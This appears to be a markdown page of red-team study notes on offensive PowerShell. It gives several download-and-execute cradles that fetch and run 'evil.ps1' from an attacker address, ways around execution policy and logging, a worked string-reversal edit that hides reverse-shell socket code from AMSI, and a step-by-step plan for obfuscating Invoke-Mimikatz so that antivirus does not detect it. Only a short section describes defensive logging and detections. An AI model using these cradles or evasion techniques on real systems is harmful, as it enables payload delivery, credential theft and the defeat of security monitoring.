


# Powershell
Windows PowerShell is different from PowerShell Core. <br>
PowerShell is <b>NOT</b> powershell.exe, but rather System.Management.Automation.dll

## Script and Modules
- Load a PowerShell script using dot sourcing
```
. C:\AD\Tools\PowerView.ps1
```
- A module (or a script) can be imported with
```
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
- All the commands in a module can be listed with
```
Get-Command -Module <modulename>
```
- Download execute cradle
```
iex (New-Object Net.WebClient).DownloadString('https://webserer/payload.ps1')

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
- Download execute cradle (PSv3 onwards)
```
iex (iwr 'http://192.168.230.1/evil.ps1')

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1', $false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
## Detections
- System-wide transcription - Not widely used, regardless of the host, all commands and its output will be logged in clear text files, meaning sensitive informations might be logged 
- Script Block logging - Two types, 4104 and 4103, enabled by default, logs any suspicious script blocks
- AntiMalware Scan Interface (AMSI) - Before execution of a script, sends the contents of said script into the antivirus in the machine based on signature checks 
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard), most tools stop working with this in place
<br><br>
4 language modes:
- NoLanguage Language Mode
- Constrained Language Mode
- Restricted Language Mode
- Full Language Mode

## Execution Policy
NOT  a security measure, prevents user from accidentally executing scripts
<br>
Several ways to bypass:
```
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

## Bypassing PowerShell Security
- [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) for bypassing security controls in PowerShell
    - Hooks .NET assemblies (System.Management.Automation.dll and System.Core.dll) to bypass logging
    - Uses Common Language Runtime (CLR) Profiler API to perform the hook operation
        - CLR is a dll that consists of functions that receives messages from and to the CLR by using the profiling API.
    - Running with admin privileges:
    ```
    RunWithPathAsAdmin.bat
    ```
    - Running with non-admin privileges:
    ```
    RunWithRegistryNonAdmin.bat
    ```
- [AMSITrigger](https://github.com/RythmStick/AMSITrigger) or [DefenderCheck](https://github.com/t3hbb/DefenderCheck) to identify code and strings that Windows Defender may flag
```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
DefenderCheck.exe PowerUp.ps1
```
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) to obfuscate the AMSI bypass

## Bypass AV Signatures for PowerShell - AMSITrigger
1. Scan using AMSITrigger
2. Modify the detected code snippet
3. Rescan using AMSITrigger
4. Repeat until "AMSI_RESULT_NOT_DETECTED" or "Blank"

Example:
```
New-Object System.Net.Sockets.TCPClient($IPAddress, $Port)
```
Modified:
```
$String = "stekcos.teN"         # Net.socket reversed
$class = ([regex]::Matches($String, '.', 'RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
    $client = New-Object System.$class.TCPClient($IPAddress, $Port)
}
```
## Bypass AV Signatures for PowerShell - DefenderCheck
1. Scan using DefenderCheck <br>

2. Here, the detected part is at the offset 0x1DCD2
3. Find the line number of the detected part using ByteToLineNumber.ps1 script



## Bypass AV Signatures for PowerShell - Invoke-Mimikatz
1. Remove default comments
2. Rename the script, function names, and variables
3. Modify the variable names of the Win32 API calls that are detected
4. Obfuscate PEBytes content -> Powerkatz dll using packers
5. Implement a reverse function for PEBytes to avoid any static signatures
6. Add a sandbox check to waste dynamic analysis resources
7. Remove Reflective PE warnings for a clean output
8. Use obfuscated commands for Invoke-MimiEx execution
9. Analysis using DefenderCheck
